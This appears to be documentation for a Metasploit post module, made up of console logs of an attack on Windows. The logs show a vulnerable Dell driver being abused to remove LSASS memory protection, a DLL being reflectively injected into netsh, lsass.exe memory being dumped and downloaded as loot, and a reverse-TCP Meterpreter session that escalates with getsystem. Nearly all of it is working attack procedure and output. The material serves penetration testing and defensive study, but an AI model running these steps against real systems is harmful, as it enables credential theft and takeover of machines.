 ```

msf6 post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp
DRIVER_PATH => C:\Windows\Temp
msf6 post(windows/manage/dell_memory_protect) > set PID 740
PID => 740
msf6 post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 692 launched.
[*] Reflectively injecting the DLL into 692...
[+] Exploit finished
[*] Post module execution completed
msf6 post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf6 post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting             Required  Description
   ----       ---------------             --------  -----------
   DUMP_PATH  C:\Windows\Temp\lsass_dump  yes       File to write memory dump to
   DUMP_TYPE  standard                    yes       Minidump size (Accepted: standard, full)
   PID        740                         yes       ID of the process to dump memory from
   SESSION    1                           yes       The session to run this module on

msf6 post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[*] Downloading minidump (4.11 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211207125102_default_172.16.144.11_windows.process._368616.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > 
```

### Windows 10 Build 19044.1348 x64 using DBUtilDrv2 version 2.5

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:39523 ) at 2021-12-08 07:18:27 -0800

meterpreter > sysinfo
Computer        : DESKTOP-JCD6JN8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-JCD6JN8\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
```